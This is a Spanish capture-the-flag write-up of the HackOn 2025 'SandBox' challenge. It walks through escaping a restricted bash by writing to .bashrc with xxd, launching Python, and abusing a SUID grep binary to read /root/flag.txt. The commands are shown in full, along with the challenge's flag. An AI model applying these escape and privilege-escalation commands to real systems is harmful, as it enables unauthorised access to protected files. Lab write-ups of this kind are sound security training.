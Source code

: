 ```yaml
---
title: SandBox - HackOn2025
author: Kesero
description: Reto misc basado en escapar de una rbash y leer flag.txt.
date: 2025-02-24 00:00:00 +0000
categories: [Writeups Competiciones Nacionales, Miscelánea N]
tags: [Misc, Misc - Rbash, Otros - Writeups, Dificultad - Media, HackOn]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox/3.png
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `HugoBond`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Not even the dockerfile, just rawdogged like old times"

## Archivos

En este reto, solo tenemos una conexión.

- `Servidor en remoto` : Conexión por ncat.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox).

## Entrando al reto.

Para acceder al entorno del reto, simplemente nos tenemos que conectar mediante `openssl` de la siguiente manera.

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

Una vez dentro, se nos desplegará una bash restringida como el usuario `paco`. Nuestro cometido será leer el archivo `flag.txt`, el cual se encuentra dentro del directorio `/root`.

## Solución

Este tipo de retos requiere tiempo y sobre todo probar y probar diferentes comandos para ir depurando posibles vías de ataque.

En este caso, la bash nos permite listar archivos mediante `ls` dentro de nuestra carpeta teníamos una carpeta `bin/` con los comandos que podíamos ejecutar los cuales son los siguientes.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ ls bin/

    echo  id  ls  ping  pwd  python  whoami  xxd

De todos estos comandos los que nos llama más la atención son `python` y `xxd` ya que con python podemos jugar de distintas formas para obtener una `bash` sin restricciones, pero la intrusión no viene de este modo, ya que el comando `python` está asociado a la ejecución del script `/opt/test.py` el cual imprime lo siguiente por consola.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ python

    You just lose THE GAME

Como tenemos capacidad para listar directorios con `ls`, podemos listar todo el contenido en el que paco tenga capacidad de lectura. Es en este momento en el que indagaremos por el sistema en busca de información que podamos utilizar a nuestro favor, como rutas de binarios, permisos asociados a los mismos, etc.

Además un truco que podemos aplicar en estos casos, como tenemos el comando `echo`, podemos mostrar el contenido de archivos mediante el siguiente comando.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo $(>.profile)

    # ~/.profile: executed by the command interpreter for login shells. # This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login # exists. # see /usr/share/doc/bash/examples/startup-files for examples. # the files are located in the bash-doc package. # the default umask is set in /etc/profile; for setting the umask # for ssh logins, install and configure the libpam-umask package. #umask 022 # if running bash if [ -n "$BASH_VERSION" ]; then # include .bashrc if it exists if [ -f "$HOME/.bashrc" ]; then . "$HOME/.bashrc" fi fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/bin" ] ; then PATH="$HOME/bin:$PATH" fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/.local/bin" ] ; then PATH="$HOME/.local/bin:$PATH" fi

De esta forma podemos listar el contenido de todos los archivos si paco tiene permisos de lectura en ellos.

Llegados a este punto tenemos capacidad de listar directorios y de listar archivos, pero nos falta la capacidad de escribirlos.

Es en este punto donde el comando `xxd` adquiere gran importancia.

Si observamos en la página de `GTFoBins` el comando [xxd](https://gtfobins.github.io/gtfobins/xxd/), podemos escribir archivos y leer archivos (aunque este listado es menos intuitivo ya que parte lo hace en hexadecimal)

Podemos listar archivos mediante

    LFILE=file_to_read
    xxd "$LFILE" | xxd -r

Podemos escribir archivos mediante

    LFILE=file_to_write
    echo DATA | xxd | xxd -r - "$LFILE"

NOTA: Importante aclarar que la escritura se realiza al comienzo del archivo, por lo que si queremos escribir al final tendremos que copiar todo el contenido del mismo y luego nuestra cadena a introducir.

Llegados a este punto podemos salir de la `rbash` de distintos modos. El camino que seguí es que como tenemos capacidad de escritura en los archivos cuyo propietario sea `paco`, directamente podemos escribir en nuestra propia `.bashrc` para escapar de la bash.

Aquí se pueden aplicar varios métodos, podemos exportar el $PATH para que incluya rutas del sistema como /usr/bin (actualmente el usuario paco solo tiene en el path /home/paco/bin/), podemos incrustar comandos o abrirnos distintos entornos de ejecuciones como puede ser vim, nano, etc.

Lo que yo hice fue simplemente escribir en `.bashrc` el intérprete de python libre restricciones el cual está alojado en `/usr/bin/python3.11`, de esta manera al salir de la bash y volver a conectarnos mediante `openssl`, se ejecutará el contenido dentro de  `.bashrc` y por ende se ejecutará el intérprete de `python3.11`. Para ello.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo "exec /usr/bin/python3" | xxd | xxd -r - ".bashrc"

Al salir de la sesión y al volver a conectarnos, podremos ver que efectivamente, tenemos un intérprete de python 3.11.2.

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

    rbash: cannot set terminal process group (7): Inappropriate ioctl for device
    rbash: no job control in this shell
    Python 3.11.2 (main, Nov 30 2024, 21:22:50) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>

Llegados a este punto podemos ejecutar comandos en el sistema mediante `import os;`, pero seguimos sin tener permisos para leer el directorio `/root`, es por ello que entra el juego la escalada de privilegios para poder leer `/root/flag.txt`

Listando con `ls -la` los permisos de los binarios alojados en `/usr/bin/` podemos listar los privilegios `SUID` que tiene el sistema y observamos que hay varios binarios que tiene permisos `SUID` cuyo propietario es `root`, por lo que podemos manipularlos para ejecutar dicho binario con máximos privilegios.

En este punto, yo utilicé el binario `grep` ya que cuenta con permisos `SUID` y nuevamente si utilizamos la página de `GTFoBins` podemos escalar privilegios con el comando [grep](https://gtfobins.github.io/gtfobins/grep/) si este cuenta con el permiso asociado.

    LFILE=file_to_read
    ./grep '' $LFILE

Como podemos ejecutar comandos deste el intérprete de python, utilizamos `grep` como medio de escalada de privilegios y a su vez para leer el archivo `flag.txt` para observar finalmente la flag.

    >>> import os
    >>> os.system("grep '' " + "/root/flag.txt")

    HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}


## Flag

`HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}`